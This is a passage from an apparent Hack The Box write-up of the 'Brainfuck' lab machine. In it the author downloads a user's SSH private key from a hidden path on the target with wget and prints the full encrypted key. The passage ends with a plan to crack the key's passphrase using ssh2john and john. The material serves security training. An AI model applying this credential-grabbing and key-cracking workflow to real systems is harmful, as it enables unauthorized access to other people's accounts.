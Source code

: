 We can now download the ssh key and gain our foothold on the box.

```c
─[✗]─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ wget https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa --no-check-certificate
--2023-09-24 16:34:21--  https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
Resolving brainfuck.htb (brainfuck.htb)... 10.10.10.17
Connecting to brainfuck.htb (brainfuck.htb)|10.10.10.17|:443... connected.
WARNING: The certificate of ‘brainfuck.htb’ is not trusted.
WARNING: The certificate of ‘brainfuck.htb’ doesn't have a known issuer.
The certificate's owner does not match hostname ‘brainfuck.htb’
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K) [application/octet-stream]
Saving to: ‘id_rsa’

id_rsa                                                          100%[=====================================================================================================================================================>]   1.72K  --.-KB/s    in 0s      

2023-09-24 16:34:23 (10.2 MB/s) - ‘id_rsa’ saved [1766/1766]
```
But wait.. one problem, the key is encrypted, we will need to tbruteforce it as Orestis suggested.

```c
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382

mneag/YCY8AB+OLdrgtyKqnrdTHwmpWGTNW9pfhHsNz8CfGdAxgchUaHeoTj/rh/
B2nS4+9CYBK8IR3Vt5Fo7PoWBCjAAwWYlx+cK0w1DXqa3A+BLlsSI0Kws9jea6Gi
W1ma/V7WoJJ+V4JNI7ufThQyOEUO76PlYNRM9UEF8MANQmJK37Md9Ezu53wJpUqZ
7dKcg6AM/o9VhOlpiX7SINT9dRKaKevOjopRbyEFMliP01H7ZlahWPdRRmfCXSmQ
zxH9I2lGIQTtRRA3rFktLpNedNPuZQCSswUec7eVVt2mc2Zv9PM9lCTJuRSzzVum
oz3XEnhaGmP1jmMoVBWiD+2RrnL6wnz9kssV+tgCV0mD97WS+1ydWEPeCph06Mem
dLR2L1uvBGJev8i9hP3thp1owvM8HgidyfMC2vOBvXbcAA3bDKvR4jsz2obf5AF+
Fvt6pmMuix8hbipP112Us54yTv/hyC+M5g1hWUuj5y4xovgr0LLfI2pGe+Fv5lXT
mcznc1ZqDY5lrlmWzTvsW7h7rm9LKgEiHn9gGgqiOlRKn5FUl+DlfaAMHWiYUKYs
LSMVvDI6w88gZb102KD2k4NV0P6OdXICJAMEa1mSOk/LS/mLO4e0N3wEX+NtgVbq
ul9guSlobasIX5DkAcY+ER3j+/YefpyEnYs+/tfTT1oM+BR3TVSlJcOrvNmrIy59
krKVtulxAejVQzxImWOUDYC947TXu9BAsh0MLoKtpIRL3Hcbu+vi9L5nn5LkhO/V
gdMyOyATor7Amu2xb93OO55XKkB1liw2rlWg6sBpXM1WUgoMQW50Keo6O0jzeGfA
VwmM72XbaugmhKW25q/46/yL4VMKuDyHL5Hc+Ov5v3bQ908p+Urf04dpvj9SjBzn
schqozogcC1UfJcCm6cl+967GFBa3rD5YDp3x2xyIV9SQdwGvH0ZIcp0dKKkMVZt
UX8hTqv1ROR4Ck8G1zM6Wc4QqH6DUqGi3tr7nYwy7wx1JJ6WRhpyWdL+su8f96Kn
F7gwZLtVP87d8R3uAERZnxFO9MuOZU2+PEnDXdSCSMv3qX9FvPYY3OPKbsxiAy+M
wZezLNip80XmcVJwGUYsdn+iB/UPMddX12J30YUbtw/R34TQiRFUhWLTFrmOaLab
Iql5L+0JEbeZ9O56DaXFqP3gXhMx8xBKUQax2exoTreoxCI57axBQBqThEg/HTCy
IQPmHW36mxtc+IlMDExdLHWD7mnNuIdShiAR6bXYYSM3E725fzLE1MFu45VkHDiF
mxy9EVQ+v49kg4yFwUNPPbsOppKc7gJWpS1Y/i+rDKg8ZNV3TIb5TAqIqQRgZqpP
CvfPRpmLURQnvly89XX97JGJRSGJhbACqUMZnfwFpxZ8aPsVwsoXRyuub43a7GtF
9DiyCbhGuF2zYcmKjR5EOOT7HsgqQIcAOMIW55q2FJpqH1+PU8eIfFzkhUY0qoGS
EBFkZuCPyujYOTyvQZewyd+ax73HOI7ZHoy8CxDkjSbIXyALyAa7Ip3agdtOPnmi
6hD+jxvbpxFg8igdtZlh9PsfIgkNZK8RqnPymAPCyvRm8c7vZFH4SwQgD5FXTwGQ
-----END RSA PRIVATE KEY-----

```
for this I will use `ssh2john` to generate a hash and crack it with `john`
